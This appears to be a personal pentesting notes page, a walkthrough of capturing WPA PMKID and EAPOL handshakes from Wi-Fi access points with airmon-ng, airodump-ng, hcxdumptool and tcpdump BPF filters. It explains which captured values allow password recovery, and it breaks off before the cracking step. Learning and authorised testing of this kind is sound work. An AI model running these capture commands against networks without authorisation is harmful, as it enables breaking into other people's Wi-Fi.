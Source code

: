 This may depends on which version you have installed. Eg. v6.2.9 has a different interface than v6.3.0+. I'll be going with the most up to date (currently v.6.3.5)

**This attack is not guaranteed!!**. Not all access points(APs) are vulnerable to the PMKID attack, BUT this can still obtain us EAPOL M1M2M3 or EAPOL M1M2M3M4 auths.

[Info on PMKID on Hashcat Forums](https://hashcat.net/forum/thread-7717.html)

Like other methods, we find out interface and put it into monitor mode.

```shell-session
sudo airmon-ng start wlan1
```

### HCXDumptool v6.2.9

```
hcxdumptool -o (name).pcapng -i (interface) --enable_status=1 --filterlist_ap=target.txt --filtermode=2
```

!\[\[image 253.png]]

Once we obtain our PMKID we will see it at the bottom

!\[\[image 254.png]]

We MAY see `PMKID:XXXXXXXXXXXXXXX` OR `PMKIDROGUE:XXXXXXXXXXXXXXX`, Even potentially `M1M2ROGUE: XXXXXXXXXXXXXXX`.

* `PMKID:XXXXXXXXXXXXXXX KDV:2` means You captured a PMKID requested from a CLIENT. WPA version (Key Descriptor Version) is WPA 2. You can recover the password from this.
* PMKIDROGUE:`XXXXXXXXXXXXXXX KDV:2` means the PMKID is requested by hcxdumptool and not by a CLIENT. You can recover the password from this.
* `M1M2ROGUE : EAPOL M2` is requested from a CLIENT by hcxdumptool and not from an ACCESS POINT. You can recover the password from this.

### HCXDumptool v6.3.0+

To target AP(s) we scan for target(s) with airodump-ng

```
sudo airodump-ng wlan1mon
```

!\[\[image 255.png]]

Grab the BSSID(s) of our targets and put them in a Berkeley Packet Filter (BPF) `.bpf` file. with tcpdump OR hcxdumptool.

TCPDump

```
tcpdump -s 65535 -y IEEE802_11_RADIO wlan addr3 BSSID -ddd > SSID.bpf
```

!\[\[image 256.png]]

HCXDumptool

```
hcxdumptool --bpfc="wlan addr3 BSSID" > SSID.bpf
```
